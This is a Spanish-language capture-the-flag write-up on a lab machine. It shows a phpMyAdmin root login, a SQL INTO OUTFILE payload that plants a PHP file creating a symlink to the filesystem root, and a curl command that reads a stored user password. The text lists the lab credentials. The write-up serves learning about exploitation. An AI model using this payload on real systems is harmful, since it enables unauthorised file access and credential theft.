


# Writeup 3 - suExec

## Índice:

- [¿En qué consiste este método?](#en-qué-consiste-este-método)
- [1. Acceso a phpMyAdmin](#1-acceso-a-phpmyadmin)
- [2. Inyectando el symlink via suExec](#2-inyectando-el-symlink-via-suexec)
- [3. Navegando el sistema de archivos](#3-navegando-el-sistema-de-archivos)
- [4. Demostración acceso de lectura](#4-demostración-acceso-de-lectura)

## ¿En qué consiste este método?

Durante el writeup1 usamos phpMyAdmin para inyectar un webshell que nos permitía ejecutar comandos en el servidor. Este método es una alternativa más limpia que no requiere ejecución de comandos..

En lugar de un webshell, usamos la vulnerabilidad **suExec** de Apache 2.2.22 para crear un **enlace simbólico a la raíz del sistema** y navegar por los archivos directamente desde el navegador sin necesidad de ejecutar comandos.

**suExec** es una característica de Apache que permite ejecutar programas CGI y SSI bajo un usuario diferente al del servidor web. En esta versión tiene un bug que nos permite crear symlinks arbitrarios desde phpMyAdmin.

## Explotación

### 1. Acceso a phpMyAdmin

Accedemos a phpMyAdmin tal y como hicimos en el writeup1:

```
https://192.168.0.35/phpmyadmin/
```

Credenciales:
- Username: `root`
- Password: `Fg-'kKXBj87E:aJ$`


### 2. Inyectando el symlink via suExec

En lugar del webshell del writeup1, inyectamos un archivo PHP que crea un **enlace simbólico a la raíz `/`** del sistema:

```sql
SELECT 1, '<?php symlink("/", "stuff.php");?>' INTO OUTFILE '/var/www/forum/templates_c/tosuexec.php'
```



Ahora accedemos al archivo para que se ejecute y cree el symlink:

```
https://192.168.0.35/forum/templates_c/tosuexec.php
```


### 3. Navegando el sistema de archivos

El symlink `stuff.php` apunta a la raíz `/` del sistema. Podemos navegar por todos los archivos del servidor directamente desde el navegador:

```
https://192.168.0.35/forum/templates_c/stuff.php
```



Ahora tenemos acceso a la raíz del sistema completa desde el navegador. Podemos ver `bin/`, `etc/`, `home/`, `var/`, etc.

### 4. Demostración acceso de lectura

Lo importante para este writeup es demostrar que tenemos acceso de lectura al sistema de archivos completo.

Vamos a  leer `/home/LOOKATME/password` que es el punto de entrada de la cadena del **`writeup1`**:

```bash
curl -kL "https://192.168.0.35/forum/templates_c/stuff.php/home/LOOKATME/password"
lmezard:G!@M6f4Eatau{sF"
```
```bash
Usuario: lmezard
Password:  G!@M6f4Eatau{sF"
```
A partir de aquí podemos continuar toda la cadena del writeup1 —
encontramos las credenciales FTP de `lmezard` sin necesidad de haber
creado un webshell.
